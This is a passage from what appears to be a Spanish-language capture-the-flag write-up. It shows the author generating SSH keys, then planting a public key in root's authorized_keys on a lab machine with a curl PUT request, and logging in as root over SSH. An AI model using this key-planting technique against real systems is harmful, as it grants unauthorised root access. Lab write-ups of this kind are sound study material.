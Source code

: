 Generamos nuestras claves:

![20240719230152.png](20240719230152.png)

Subimos a la maquina victima

```c
❯ curl -X PUT -d 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDGw+ZvTEyUy29aue4HJcGADsr5POimeDP6W8cdjDm2gT/KmF6AZH7YccW+LdyVJvA3XYb06Ru0kUh28w31nt4bWIltmUC6LPeIbcTy22HXSYhSXRjJB7wy6k4B19FZ25+82+xEGeCIG2FGwlHtdR3fp0wA7nIqCErVJKqfpYV+Uwn3y6k7PtpmX6/Fwivk1gPWaP9J5qO3hxNiY8f1wldiaUuS/twAmyJ+MXtKPXcjhfXWDG6VtiZI5KWNB2GS0GFNpl9PJFX6g5atsB5tB9aFHQ4jIliOJIPdJ/eWO6jkpceTl6UQgFxpFNvERa8MOyT9dYvF1NsjlFhVcnVOkb0Mkt/mZXM= b0ysie7e@Elysium' http:/10.10.11.243:8008/root/.ssh/authorized_keys
```

Luego podremos conectarnos haciendo uso de la `id_rsa`

```c
❯ ssh -i id_rsa root@10.10.11.243
```

![20240719230309.png](20240719230309.png)